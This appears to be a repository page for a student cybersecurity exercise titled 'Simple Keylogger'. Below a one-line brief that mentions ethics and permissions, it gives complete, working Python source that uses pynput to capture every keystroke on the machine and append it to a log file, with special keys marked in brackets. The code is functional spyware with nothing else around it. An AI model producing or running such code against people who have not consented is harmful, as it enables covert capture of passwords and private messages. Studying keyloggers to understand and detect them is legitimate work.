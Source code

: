 # PRODIGY_CS_04
#Simple Keylogger  Create a basic keylogger program that records and logs keystrokes. Focus on logging the keys pressed and saving them to a file. Note: Ethical considerations and permissions are crucial for projects involving keyloggers
from pynput.keyboard import Listener

def writetofile(key):
    keydata=str(key)
    with open("log.txt", "a") as f:
        if hasattr(key, 'char'):  # Normal character key
            f.write(key.char)
        elif key == key.space:  # Spacebar
            f.write(' ')
        elif key == key.enter:  # Enter key
            f.write('\n')
        else:  # Other special keys (e.g., Ctrl, Shift, etc.)
            f.write('[' + str(key) + ']')


with Listener(on_press=writetofile) as l:
    l.join()

